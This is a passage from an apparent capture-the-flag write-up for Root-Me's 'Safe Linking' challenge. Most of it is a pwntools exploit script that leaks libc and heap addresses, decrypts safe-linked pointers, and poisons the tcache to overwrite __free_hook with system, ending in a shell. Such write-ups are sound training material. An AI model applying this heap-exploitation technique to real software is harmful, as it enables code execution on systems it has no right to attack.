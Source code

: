 ```python
    p.sendafter("Data:", content)
def show(idx):
    sl(4)
    p.sendlineafter("Index:", str(idx))

def freeze(idx):
    sl(5)
    p.sendlineafter("Index:", str(idx))

def decrypt(cipher):
    key = 0
    for i in range(1, 6):
        bits = 64 - 12 * i
        if bits < 0:
            bits = 0
        plain = ((cipher ^ key) >> bits) << bits
        key = plain >> 12
    return plain

def main():
    add(0, 0x428, b"A"*8)
    add(1 ,0x18, b"B"*8)
    freeze(0)
    free(0)
    add(2, 0x438, b"E" * 8)
    show(0)
    print(p.recvline())
    print(p.recvline())
    libc_base = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) - 0x1e3ff0
    print(hex(libc_base))
    add(3, 0x20, b"X" * 8)
    add(4, 0x20, b"Z" * 8)
    add(5, 0x18, b"/bin/sh\x00")
    free(4)
    free(3)
    show(0)
    print(p.recvline())
    print(p.recvline())
    leak = u64(p.recvline().strip(b"\n").ljust(8,b"\x00"))
    heap_base = decrypt(leak) -0x2d0#- 0x6e0
    print(hex(heap_base))
    system = libc_base + libc.sym.system
    hook = libc_base + libc.sym.__free_hook
    hook = alpha(heap_base, hook)
    edit(0, p64(hook))
    add(6, 0x20, b"A" * 8)
    add(7, 0x20, p64(system))
    p.interactive()

if __name__ == "__main__":
    main()
```

**Gihub** : https://github.com/retr0Rocks/CTF-Writeups/tree/main/Root-Me/Safe%20Linking
References:  **https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/**

